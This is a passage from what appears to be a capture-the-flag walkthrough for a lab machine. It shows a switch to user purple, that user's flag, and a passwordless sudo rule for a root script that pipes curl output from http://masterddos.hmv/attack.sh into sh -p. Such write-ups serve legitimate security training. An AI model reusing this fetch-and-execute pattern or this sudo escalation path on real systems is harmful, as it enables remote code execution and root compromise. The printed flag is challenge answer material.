 ![Victim: green](https://img.shields.io/badge/Victim-green-64b5f6?logo=linux&logoColor=white)

`su purple`:
```
Password: ←
```

![Victim: purple](https://img.shields.io/badge/Victim-purple-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
purple ←
```

`cd /home/purple`

`ls -alps`:
```
total 32
4 drwx------ 2 purple purple 4096 Feb 20  2023 ./
4 drwxr-xr-x 6 root   root   4096 Jan 27  2023 ../
0 lrwxrwxrwx 1 root   root      9 Feb 11  2023 .bash_history -> /dev/null
4 -rwx------ 1 purple purple  220 Jan 27  2023 .bash_logout
4 -rwx------ 1 purple purple 3526 Jan 27  2023 .bashrc
4 -rw-r--r-- 1 root   root     77 Feb 11  2023 for_purple_only.txt
4 -rwx------ 1 purple purple  807 Jan 27  2023 .profile
4 -rw-r--r-- 1 root   root     14 Feb 11  2023 user.txt ←
4 -rw------- 1 purple purple  868 Feb 20  2023 .viminfo
```

`cat ./user.txt`:
```
(:Ez_Colors:) ←
```

`cat ./for_purple_only.txt `:
```
As the highest level user I allow you to use the supreme ddos attack script. ←
```

`sudo -l`:
```
Matching Defaults entries for purple on color:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User purple may run the following commands on color:
    (root) NOPASSWD: /attack_dir/ddos.sh
```

`ls -la /attack_dir/ddos.sh`:
```
-rwxr--r-- 1 root root 75 Feb 11  2023 /attack_dir/ddos.sh ←
```

`cat /attack_dir/ddos.sh`:
```
#!/bin/bash
/usr/bin/curl http://masterddos.hmv/attack.sh | /usr/bin/sh -p ←
```
